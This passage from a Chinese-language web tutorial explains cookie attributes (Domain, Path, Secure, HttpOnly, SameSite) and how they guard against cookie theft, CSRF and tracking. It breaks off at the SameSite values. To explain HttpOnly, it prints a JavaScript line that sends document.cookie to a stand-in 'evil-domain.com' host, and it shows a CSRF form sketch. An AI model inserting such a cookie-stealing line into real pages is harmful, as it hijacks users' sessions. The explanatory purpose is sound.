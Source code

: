 如果Set-Cookie字段没有指定Expires或Max-Age属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。

Domain，Path
Domain属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，example.com不设置 Cookie 的domain属性，那么sub.example.com将不会附带这个 Cookie。如果指定了domain属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致。

Secure，HttpOnly
Secure属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

HttpOnly属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是document.cookie属性、XMLHttpRequest对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的HttpOnly属性，上面代码就不会读到该 Cookie。

SameSite
Chrome 51 开始，浏览器的 Cookie 新增加了一个SameSite属性，用来防止 CSRF 攻击和用户追踪。

Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站your-bank.com，银行服务器发来了一个 Cookie。

Set-Cookie:id=a3fWa;
用户后来又访问了恶意网站malicious.com，上面有一个表单。

```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的请求。为了防止这种攻击，表单一般都带有一个随机 token，告诉服务器这是真实请求。

```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

这种第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。比如，Facebook 在第三方网站插入一张看不见的图片。

```html
<img src="facebook.com" style="visibility:hidden;">
```

浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，从而 Facebook 就会知道你是谁，访问了什么网站。

Cookie 的SameSite属性用来限制第三方 Cookie，从而减少安全风险。它可以设置三个值。

Strict
Lax
None
（1）Strict
